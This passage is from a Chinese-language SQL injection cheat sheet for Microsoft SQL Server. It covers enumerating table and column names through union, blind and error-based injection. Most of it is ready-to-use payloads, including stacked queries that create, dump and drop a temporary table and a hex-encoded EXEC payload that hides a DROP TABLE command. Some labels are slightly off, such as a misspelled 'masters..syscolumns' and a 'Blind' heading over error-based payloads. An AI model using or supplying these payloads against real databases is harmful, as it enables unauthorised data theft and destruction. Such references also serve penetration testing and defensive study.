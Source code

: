 ```text

tips:

所有列都包括在内后，将不会返回任何错误。
```

#### 猜解表名

我们可以从两个不同的数据库，information\_schema.tables或master..sysobjects中检索表。 **union**

```text
UNION SELECT name FROM master..sysobjects WHERE xtype='U'
```

**Blind**

```text
AND SELECT SUBSTRING(table_name,1,1) FROM information_schema.tables > 'A'
```

**Error**

```text
AND 1 = (SELECT TOP 1 table_name FROM information_schema.tables)
AND 1 = (SELECT TOP 1 table_name FROM information_schema.tables WHERE table_name NOT IN(SELECT TOP 1 table_name FROM information_schema.tables))
```

Xtype ='U'用于用户定义的表格。 您可以使用“V”查看。

#### 猜解列名

我们可以从两个不同的数据库，information\_schema.columns或masters..syscolumns中检索这些列。 **union**

```text
UNION SELECT name FROM master..syscolumns WHERE id = (SELECT id FROM master..syscolumns WHERE name = 'tablename')
```

**Blind**

```text
AND SELECT SUBSTRING(column_name,1,1) FROM information_schema.columns > 'A'
```

**Blind**

```text
AND 1 = (SELECT TOP 1 column_name FROM information_schema.columns)
AND 1 = (SELECT TOP 1 column_name FROM information_schema.columns WHERE column_name NOT IN(SELECT TOP 1 column_name FROM information_schema.columns))
```

**一次查询多个表或列** 以下3个查询将创建一个临时表/列，并将所有用户定义的表格插入到其中。 然后它将转储表内容并删除该表完成。

```text
创建一个临时表或列并插入数据:
AND 1=0; BEGIN DECLARE @xy varchar(8000) SET @xy=':' SELECT @xy=@xy+' '+name FROM sysobjects WHERE xtype='U' AND name>@xy SELECT @xy AS xy INTO TMP_DB END;

转储内容：
AND 1=(SELECT TOP 1 SUBSTRING(xy,1,353) FROM TMP_DB);

删除表：
AND 1=0; DROP TABLE TMP_DB;

一个更简单的方法是从MSSQL 2005及更高版本开始。 XML函数path()作为一个连接器，允许用1个查询检索所有表。:
SELECT table_name %2b ', ' FROM information_schema.tables FOR XML PATH('')

你也可以讲你的查询语句编码：
' AND 1=0; DECLARE @S VARCHAR(4000) SET @S=CAST(0x44524f50205441424c4520544d505f44423b AS VARCHAR(4000)); EXEC (@S);--
```